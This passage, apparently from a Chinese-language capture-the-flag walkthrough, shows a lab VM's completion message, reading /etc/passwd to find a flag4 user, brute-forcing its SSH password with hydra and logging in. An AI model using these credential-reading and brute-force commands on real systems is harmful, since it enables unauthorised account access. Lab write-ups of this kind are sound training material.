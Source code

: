
```
Well done!!!
干得好！
Hopefully you've enjoyed this and learned some new skills.
希望你已经享受了这一点，并学到了一些新的技能。
You can Let me know what you thought of this little journey
你可以告诉我你对这段小旅程的看法
by_ contacting me via Twitter
通过twitter联系我
QDCAU7
QDCAU7

```

>  
 大致就是说你已经通过了本关卡。 


<img src="https://img-blog.csdnimg.cn/f467bd54d38948dd9b2c254e31a5ab95.png" alt="在这里插入图片描述">

#### 15.发现flag4

>  
 此时我们查看 /etc/passwd 文件，发现存在 flag4 用户，我们也可以使用 hydra 进行爆破 


```
cat /etc/passwd

```

<img src="https://img-blog.csdnimg.cn/d35ecffa96664ae3b731b801d50a50d2.png" alt="在这里插入图片描述">

```
hydra -l flag4 -P /root/Desktop/pass.txt ssh://192.168.233.177

```

>  
 解释一下: 


```
-l 指定用户名
-P 加载密码字典（自定义)
ssh://ip 指定使用协议和ip地址

```

<img src="https://img-blog.csdnimg.cn/9f5ed306da4a49c1a4669b41a1b66af9.png" alt="在这里插入图片描述">

>  
 SSH连接登录，拿到flag4权限 


```
ssh flag4@192.168.233.177

```

<img src="https://img-blog.csdnimg.cn/27d94c593a4f4f1db75e04637d326a5c.png" alt="在这里插入图片描述">

## 三、相关资源

  
